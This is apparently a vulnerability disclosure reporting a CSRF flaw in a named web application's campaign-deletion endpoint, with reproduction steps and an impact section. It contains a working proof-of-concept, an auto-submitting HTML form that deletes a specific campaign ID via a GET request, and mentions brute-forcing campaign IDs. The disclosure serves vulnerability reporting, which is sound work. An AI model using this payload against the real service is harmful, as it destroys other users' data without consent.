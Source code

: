 **CSRF Vulnerability Allows Deletion of Other Users’ Campaigns via GET Request**
**Cross-Site Request Forgery (CSRF) – CWE-352**
Url : `https://app.signitic.com/campaign/<campaign_id>/delete`

## Description
The endpoint responsible for deleting campaigns is vulnerable to Cross-Site Request Forgery (CSRF). It accepts unauthenticated GET requests without validating the origin or requiring a CSRF token. As a result, an attacker can craft a malicious webpage that silently issues a delete request for a campaign while the victim is logged in, leading to unauthorized deletion of campaign resources — including those not owned by the victim.

## Steps to Reproduce

1. Log in to `https://app.signitic.com` with a valid user account.
2. While logged in, open the following CSRF Proof-of-Concept page crafted by the attacker:
3. <html>
     <body>
    <form action="https://app.signitic.com/campaign/140008/delete" method="GET">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
    </body>
     </html>
     
4. Once the page is loaded, the form is auto-submitted using the victim’s active session.
5. Campaign with ID `140008` (not necessarily owned by the victim) is deleted without user consent or interaction.

## Impact

- Any authenticated user can be tricked into deleting **any campaign**.
- No ownership check is enforced — users can delete campaigns they don’t own.
- High potential for data loss and abuse if campaign IDs are brute-forced.